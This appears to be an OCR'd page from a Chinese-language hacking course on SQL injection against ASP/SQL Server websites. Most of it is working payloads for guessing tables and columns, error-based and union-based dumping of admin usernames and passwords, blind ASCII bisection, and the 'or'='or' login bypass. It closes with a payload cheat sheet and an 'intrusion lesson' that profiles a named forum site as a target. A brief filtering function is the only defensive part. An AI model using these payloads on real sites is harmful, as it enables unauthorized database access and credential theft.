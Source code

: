 　　And (Select count(*) from 表名)<>0 　　猜列名 　　And (Select count（列名） from 表名）<>0 　　或者也可以这样 　　and exists (select * from 表名） 　　and exists (select 列名 from 表名） 　　返回正确的，那么写的表名或列名就是正确 　　这里要注意的是，exists这个不能应用于猜内容上，例如and exists (select len(user) from admin)>3 这样是不行的 　　现在很多人都是喜欢查询里面的内容，一旦iis没有关闭错误提示的，那么就可以利用报错方法轻松获得库里面的内容 　　获得数据库连接用户名：；and user>0 　　这个是小竹提出来的，我这里引用《SQL注入天书》里面的一段话来讲解： 　　－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－ 　　"重点在and user>0，我们知道，user是SQLServer的一个内置变量，它的值是当前连接的用户名，类型为nvarchar。拿一个 nvarchar的值跟int的数0比较，系统会先试图将nvarchar的值转成int型，当然，转的过程中肯定会出错，SQLServer的出错提示是：将nvarchar转换int异常，XXXX不能转换成int" 　　－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－ 　　看到这里大家明白了吧，报错的原理就是利用SQLserver内置的系统表进行转换查询，转换过程会出错，然后就会显示出在网页上，另外还有类似的and 1=(selet top 1 user from admin），这种语句也是可以爆出来的。；and db_name()>0 则是暴数据库名。 　　一旦关闭了IIS报错，那么还可以用union（联合查询）来查内容，主要语句就是 　　Order by 10 　　And 1=2 union select 1,2,3,4,5,6,7,8,9,10 from admin 　　And 1=2 union select 1,2,3,user,5,passwd,7,8,9,10 from admin 　　上面的order by 10主要就是查字段数目，admin就是表名，可以自己猜，user,passwd是列名 　　反正就是返回正确即对，返回异常即错 　　另外还有十分常用的ascll码拆半法 　　先要知道指定列名，例如user里的内容的长度 　　and (select len(user) from admin)=2 就是查询长度为不为2位，返回错误的增加或减少数字，一般这个数字不会太大，太大的就要放弃了，猜也多余 　　后面的逻辑符号可以根据不同要求更改的， 　　>；大于 <；小于 =就是等于咯，更新语句的话，=也可以表示传递符号 <>；就是不等 　　知道了长度后就可以开始猜解了 　　And (Select top 1 asc(mid(user,n,1)) from admin)>100 　　n就是猜解的表名的第几位，最后的长度数字就是刚才猜解出来的列名长度了，And (Select top 1 asc(mid(user,1,1)) from admin)>100 就是猜解user里内容的第一位的ASCLL字符是不是大于100 　　正确的话，那么表示USER第一个字符的ASCLL码大于100，那么就猜>120，返回错误就是介于100－120之间，然后再一步一步的缩少，最终得到正确字符XXX，然后用ASCLL转换器吧这个转换成普通字符就可以了 　　然后就是第二位 And (Select top 1 asc(mid(user,2,1)) from admin)>100 一直猜下去 　　加在url后面，列名表名还是先猜解，返回正确的代表帐号的ascll码大于100，那么就再向前猜，指导报错，把猜出来的ascll码拿去ascll转换器转换就可以了，中文是负数，加上asb取绝对值 　　And (Select top 1 asb(asc(mid(user,n,1))) from admin)>15320 　　得到之后就记得在数字前加-号，不然ASCLL转换器转换不来的，中文在ASCLL码里是-23423这样的，所以猜起来挺麻烦 　　这个猜解速度比较慢，但是效果最好，最具有广泛性
方法2
　　后台身份验证绕过漏洞 　　验证绕过漏洞就是'or'='or'后台绕过漏洞，利用的就是AND和OR的运算规则，从而造成后台脚本逻辑性错误 　　例如管理员的账号密码都是admin，那么再比如后台的数据库查询语句是 　　user=request("user") 　　passwd=request("passwd") 　　sql='select admin from adminbate where user='&'''&user&'''&' and passwd='&'''&passwd&''' 　　那么我使用'or 'a'='a来做用户名密码的话，那么查询就变成了 　　select admin from adminbate where user=''or 'a'='a' and passwd=''or 'a'='a' 　　这样的话，根据运算规则，这里一共有4个查询语句，那么查询结果就是 假or真and假or真，先算and 再算or，最终结果为真，这样就可以进到后台了 　　这种漏洞存在必须要有2个条件，第一个：在后台验证代码上，账号密码的查询是要同一条查询语句，也就是类似 　　sql="select * from admin where username='"&username&'&"passwd='"&passwd&' 　　如果一旦账号密码是分开查询的，先查帐号，再查密码，这样的话就没有办法了。 　　第二就是要看密码加不加密，一旦被MD5加密或者其他加密方式加密的，那就要看第一种条件有没有可以，没有达到第一种条件的话，那就没有戏了
方法3
　　防御方法 　　对于怎么防御SQL注入呢，这个网上很多，我这里讲几个 　　如果自己编写防注代码，一般是先定义一个函数，再在里面写入要过滤的关键词，如select ; “”；from；等，这些关键词都是查询语句最常用的词语，一旦过滤了，那么用户自己构造提交的数据就不会完整地参与数据库的操作。 　　当然如果你的网站提交的数据全部都是数字的，可以使用小竹提供的方法 　　Function SafeRequest(ParaName,ParaType) 　　'--- 传入参数 --- 　　'ParaName：参数名称-字符型 　　'ParaType：参数类型-数字型（1表示以上参数是数字，0表示以上参数为字符） 　　Dim ParaValue 　　ParaValue=Request(ParaName) 　　If ParaType=1 then 　　If not isNumeric(ParaValue) then 　　Response.write "参数" & ParaName & "必须为数字型！" 　　Response.end 　　End if 　　Else 　　ParaValue=replace(ParaValue,"'","''") 　　End if 　　SafeRequest=ParaValue 　　End function 　　然后就用SafeRequest（）来过滤参数 ，检查参数是否为数字，不是数字的就不能通过。
小结
　　SQL注入的手法相当灵活，在注入的时候会碰到很多意外的情况。能不能根据具体情况进行分析，构造巧妙的SQL语句，从而成功获取想要的数据，是高手与“菜鸟”的根本区别。编辑本段常用sql注入语句　　1.判断有无注入点 　　; and 1=1 and 1=2 　　2.猜表一般的表的名称无非是admin adminuser user pass password 等..　　 and 0<>(select count(*) from *) 　　and 0<>(select count(*) from admin) ---判断是否存在admin这张表 　　3.猜帐号数目 如果遇到0< 返回正确页面 1<；返回错误页面说明帐号数目就是1个 　　and 0<(select count(*) from admin) 　　and 1<(select count(*) from admin) 　　4.猜解字段名称 在len( ) 括号里面加上我们想到的字段名称. 　　and 1=(select count(*) from admin where len(*)>0)-- 　　and 1=(select count(*) from admin where len（用户字段名称name)>0) 　　and 1=(select count(*) from admin where len（密码字段名称password)>0) 　　5.猜解各个字段的长度 猜解长度就是把>0变换 直到返回正确页面为止 　　and 1=(select count(*) from admin where len(*)>0) 　　and 1=(select count(*) from admin where len(name)>6) 错误 　　and 1=(select count(*) from admin where len(name)>5) 正确 长度是6 　　and 1=(select count(*) from admin where len(name)=6) 正确 　　and 1=(select count(*) from admin where len(password)>11) 正确 　　and 1=(select count(*) from admin where len(password)>12) 错误 长度是12 　　and 1=(select count(*) from admin where len(password)=12) 正确 


入侵第六课
分析网站结构
bbs.fankebase.com
iis6.0
伪静态 HTML
PHP程序	
MYSQL数据库
